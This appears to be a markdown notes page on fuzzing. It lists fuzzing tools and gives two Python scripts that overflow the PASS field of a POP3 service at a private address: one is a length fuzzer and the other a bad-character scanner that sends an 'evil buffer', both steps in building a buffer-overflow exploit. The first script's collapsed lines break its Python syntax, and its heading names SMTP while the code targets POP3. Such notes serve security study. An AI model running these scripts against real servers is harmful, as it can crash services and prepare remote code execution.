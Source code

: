 # Fuzzing

## Tools
- American fuzzy lop is a security-oriented fuzzer: http://lcamtuf.coredump.cx/afl/
- A fork of AFL for fuzzing Windows binaries: https://github.com/googleprojectzero/winafl
  - Using WinAFL to Fizz WinRar (unacev2.dll): https://research.checkpoint.com/extracting-code-execution-from-winrar/
- FoRTE-Research's Fuzzing Benchmarks: https://github.com/FoRTE-Research/FoRTE-FuzzBench

## Python Network Fuzzer (SMTP?)
```python
#!/usr/bin/python  
import socket

# Create an array of buffers, from 10 to 2000, with increments of 20.  
#buffer = ‘A’ 2700

buffer=["A"]
counter=100  
while len(buffer) <= 30:      buffer.append("A"*counter)      counter=counter+200

for string in buffer:      print "Fuzzing PASS with %s bytes" % len(string)      s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)      connect=s.connect(('10.0.0.22',110))      s.recv(1024)      s.send('USER test\r\n')      s.recv(1024)      s.send('PASS ' + string + '\r\n')      s.send('QUIT\r\n')      s.close()
```

## Python Bad Character Scanner

```python
#!/usr/bin/python

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

badchars = (
    "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
    "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
    "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
    "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
    "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
    "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
    "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
    "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
 )

buffer="A"*2606 + "B"*4 + badchars
try:
     print "\nSending evil buffer..."
     s.connect(('10.0.0.22',110))
     data = s.recv(1024)
     s.send('USER username' +'\r\n')
     data = s.recv(1024)
     s.send('PASS ' + buffer + '\r\n')
     s.close()
     print "\nDone!"
except:
    print "Could not connect to POP3!"
```

